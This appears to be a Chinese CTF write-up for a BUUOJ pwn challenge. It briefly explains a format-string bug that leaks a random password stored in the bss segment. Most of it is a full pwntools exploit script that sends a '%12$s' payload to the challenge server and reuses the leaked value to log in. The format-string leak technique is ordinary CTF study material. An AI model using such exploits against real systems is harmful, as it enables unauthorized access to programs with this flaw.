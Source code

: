 这题完全就是考了个格式化字符串漏洞，`read(fd, &dword_804C044, 4u);` 将随机数读取到 `bss` 段，所以我们只要想办法泄漏 `bss` 中保存的 `dword_804C044` 的值就好了。`dword_804C044` 的地址可以通过 `bss` 段基地址加上 debug 出来的数据偏移计算得到。把泄漏的地址和格式化字符串一起作为输入发送，用 `%s` 来输出栈上保存的地址所指向的值。

## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, process, remote, u32

gdbscript = """
b *0x80492bc
b *0x80492f0
c
"""

FILE = "./pwn"
HOST, PORT = "node5.buuoj.cn", 26163

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def rev_atoi(data):
    return str(u32(data)).encode()


def construct_payload():
    elf = context.binary

    payload = flat(b"aa%12$s\x00", elf.bss() + 0x4)

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendlineafter(b"your name:", payload)
    target.recvuntil(b"aa")

    passwd = rev_atoi(target.recv(0x4))

    target.sendlineafter(b"your passwd:", passwd)
    target.interactive()


if __name__ == "__main__":
    main()
```
